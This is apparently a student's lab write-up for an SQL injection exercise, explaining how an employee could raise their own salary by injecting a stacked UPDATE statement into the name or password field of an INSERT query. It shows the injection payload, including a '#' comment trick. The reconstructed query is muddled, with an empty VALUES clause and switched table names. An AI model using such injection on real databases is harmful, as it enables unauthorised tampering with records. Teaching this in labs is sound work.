 
##  Task 4.2: 
The following SQL statement is sent to the database to add a new user to the database, where the content of the ```$name``` and ```$passwd``` variables are provided by the user, but the ```EID``` and ```Salary``` field are set by the system. How can a malicious employee set his/her salary to a value higher than ```80000```? Please demonstrate and explain your approach.

```
$sql = "INSERT INTO employee (Name, EID, Password, Salary)
        VALUES ('$name', 'EID6000', '$passwd', 80000)";
```

This attack on an unsecure database is a simple suffixing or concatenation of the command below into the ```$name``` or ```password``` field.
```
UPDATE employee SET Salary=1000000 WHERE eid='EID6000'
```

With this we can now craft the entie SQL statement that would look like such. The below has been edited to change Alice'salary from lab04 instead of eid6000
```
$sql = "INSERT INTO credential (Name, EID, Password, Salary)
        VALUES (); UPDATE credential SET Salary=1000000 WHERE eid='10000';#.'EID6000','$Password',80000)";
```

The end of the above statement is not essential as the ```#``` is commenting out the remainder of the SQL statement.
![Edit Salary through sql](./images/final-task4-2-1.png)
